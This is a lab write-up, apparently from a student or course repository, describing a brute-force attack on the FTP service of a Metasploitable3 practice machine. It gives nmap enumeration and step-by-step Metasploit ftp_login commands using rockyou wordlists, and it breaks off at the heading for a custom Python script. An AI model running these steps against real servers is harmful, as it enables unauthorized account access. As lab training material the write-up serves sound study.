




**FTP Brute-Force Attack on Metasploitable3**

**Objective:** Compromise the FTP service on a Metasploitable3 victim machine using brute‑force techniques.

---

## 1. Environment Setup

### 1.1 Machines and IP Addresses

* **Attacker (Kali Linux)**

  * IP Address: `10.0.2.15`
    

* **Victim (Metasploitable3)**

  * IP Address: `10.0.2.16`
    

---

## 2. Vulnerability Enumeration

### 2.1 Service Discovery with Nmap

To identify open services on the victim, we ran:

```bash
nmap -sV 10.0.2.16
```

* Key findings: FTP (port 21/tcp), SSH (22/tcp), HTTP (80/tcp), etc.



### 2.2 Selecting the Target Service

The FTP service was chosen because it allows multiple login attempts, making it susceptible to brute‑force attacks.

---

## 3. Attack Execution

### 3.1 Exploitation via Metasploit Console

1. Launch Metasploit:

   ```bash
   msfconsole
   ```
2. Select the FTP login auxiliary module:

   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```
3. Configure module options:

   ```bash
   set RHOSTS 10.0.2.16
   set USER_FILE /usr/share/wordlists/rockyou.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set STOP_ON_SUCCESS true
   ```
4. Execute the attack:

   ```bash
   run
   ```



### 3.2 Custom Brute-Force Script

A Python script using `ftplib` was also used to automate login attempts:

